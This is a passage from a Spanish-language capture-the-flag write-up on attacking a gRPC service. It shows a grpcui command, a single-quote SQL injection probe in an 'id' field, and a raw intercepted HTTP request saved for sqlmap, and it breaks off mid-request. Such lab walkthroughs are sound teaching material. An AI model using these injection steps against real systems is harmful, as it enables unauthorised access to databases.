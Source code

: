 ```grpcui -plaintext <IP>:50051```
Ahora usaremos esos datos para mostrar la info del usuario que acabamos de crear, pero esta vez interceptaremos la peticion con burp:

![](/assets/img/PC/grpc5.png)

Podemos ver que en la parte de ```data``` se le esta pasando nuestro ID y el servidor nos responde esto:

![](/assets/img/PC/grpc6.png)

Aqui empece a buscar las diferentes vulnerabilidades que pueden a ver en gRPC y encontre este blog [https://www.trendmicro.com/en_us/research/20/h/how-unsecure-grpc-implementations-can-compromise-apis.html](https://www.trendmicro.com/en_us/research/20/h/how-unsecure-grpc-implementations-can-compromise-apis.html), en una parte habla de SQLi, asi que como la data que esta tramitando es al id, entonces decidi probar injectiones en ese campo

Primero puse una comilla al final del ID:

```
"data":[
  {
    "id":"738'"
  }
```
Y eso me dio un error:

![](/assets/img/PC/grpc7.png)

Seguramente el gestor de base de datos detecto un error en la consulta y arrojo eso, es posible que haya una SQLi, asi que probare con sqlmap.
Tomando en cuenta que no tenemos un servidor web como tal, entonces debemos de guardar la peticion que interceptamos con burp y usando el argumento -r de sqlmap, podemos hacerlo, este es el archivo de mi peticion:

```
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:36401
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-grpcui-csrf-token: h000rrAARGYkr4dDDax5sQUcnTmszKcRiLhk-0Aep-k
X-Requested-With: XMLHttpRequest
Content-Length: 194
Origin: http://127.0.0.1:36401
Connection: close
Referer: http://127.0.0.1:36401/
Cookie: csrftoken=dv1RLiX7MBGMrZhvyWH0W4U4HIgJZdFp; _grpcui_csrf_token=h000rrAARGYkr4dDDax5sQUcnTmszKcRiLhk-0Aep-k
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
